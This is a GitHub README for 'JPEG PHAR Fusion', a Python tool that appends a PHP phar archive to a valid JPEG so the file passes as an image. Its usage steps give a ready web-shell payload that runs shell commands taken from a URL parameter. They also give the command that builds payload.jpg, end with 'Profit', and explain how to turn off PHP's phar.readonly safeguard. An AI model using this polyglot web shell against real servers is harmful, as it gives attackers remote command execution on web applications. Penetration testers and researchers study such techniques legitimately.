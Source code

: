 # JPEG PHAR Fusion

![Very cool picture](https://github.com/Sarapuce/jpeg-phar-fusion/blob/main/fusion.jpeg)

This is a simple tool to add a phar payload at the end of a valid jpeg image.

## Requierments
- Python 3
- Php (Tested with php 8)

## Usage
1. Clone the repo

`git clone https://github.com/Sarapuce/jpeg-phar-fusion.git`

2. Choose a php payload finishing by `__HALT_COMPILER();` for example :

`<?php system($_GET["cmd"]); __HALT_COMPILER(); ?>`

3. Create the payload with the script

`python3 phar_creator.py '<?php system($_GET["cmd"]); __HALT_COMPILER(); ?>'`

4. The file is in `payload.jpg`

5. Profit


## It doen't work 😡
Do you have the error 
> PHP Fatal error:  Uncaught UnexpectedValueException: creating archive "payload.phar" disabled by the php.ini setting phar.readonly

You need to enable the phar creation in php.ini
To locate your php.ini 

`php --ini`

Then edit this line in your file

`;phar.readonly = Off`

into

`phar.readonly = Off`